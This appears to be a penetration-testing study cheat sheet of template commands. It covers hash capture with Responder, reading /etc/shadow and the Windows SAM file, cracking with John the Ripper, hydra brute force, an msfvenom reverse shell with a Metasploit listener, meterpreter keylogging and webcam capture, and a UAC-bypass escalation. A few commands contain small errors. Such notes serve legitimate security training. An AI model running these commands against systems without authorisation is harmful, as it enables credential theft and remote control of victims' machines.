 ## System Hacking

### Gain access
1. Password capture
   1. Responder 
      - It is an LLMNR, NBT-NS, and MDNS poisoner. Used to capture password hash when a windows user is doing a network login.
      - `sudo responder -I <network interface name> -dwrv`
      - Hashes in text file at: `/usr/share/responder/logs/XXXX-<IP>.txt`
   2. Passwords of other users
      - Linux: shadow file
        - `cat /etc/shadow`
        - `cat /etc/passwd`
      - Windows: SAM file
        - `C:\Windows\System32\config\SAM`
        - `C:\Windows\System32\config\SYSTEM`
2. Password cracking
   1. John the ripper
      - `sudo john <hash file>`
      - `sudo john --wordlist=<wordlist path> <hash file>`
      - NTLM passwords need `--format=NT --show`
      - Hash formats: https://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats
      - `--rules` for setting password rules (min/max length, lowercase, uppercase, digits, etc.)
3. Password Brute Force

   online password attack, can get locked out, but not for ftp, smb, ssh, rdp, etc.
   1. hydra
      - `hydra -L <username list> -P <password list> <target IP> <service>`
      - `hydra -l <username> -P <password list> <target IP> <service>`
      - `hydra -l <username> -P <password list> <service>://<target IP> -s <port>`
4. Exploit Vulnerabilities
   1. msfvenom: to generate payloads
      - `msfvenom -p <payload> LHOST=<own ip> LPORT=<port> -a x86 -f exe -o <output file>`
      - Ensure file size > 0
   2. Metasploit
      - `msfconsole -q`
        - `>` `search <keyword>`
        - `>` `use <exploit name>`
        - `>` `show options`
        - `>` `set <option name> <value>`
        - `>` `exploit`
   3. Metasploit Example: Windows reverse TCP shell
      - Create payload file: `msfvenom -p windows/shell_reverse_tcp LHOST=<own ip> LPORT=<port> -f exe -o <output file>`
      - Setup listener`msfconsole -q`
        - `>` `use exploit/multi/handler`
        - `>` `set payload windows/shell_reverse_tcp`
        - `>` `set LHOST <own ip>`
        - `>` `set LPORT <port>`
        - `>` `exploit`
        - `>` `background` to move session established to background
        - `>` `sessions i*` list sessions
        - `>` `sessions -i <session id>` interact with session
   4. Armitage: metaspoilt UI
      - When meterpreter session is established, various options are available:
         - access shell
         - browse files
         - screenshot
         - keylogger
         - webcam shot
         - Escalate privileges:
            - `exploit/windows/local/bypassuac_fodhelper`
            - `getsystem -t 1`

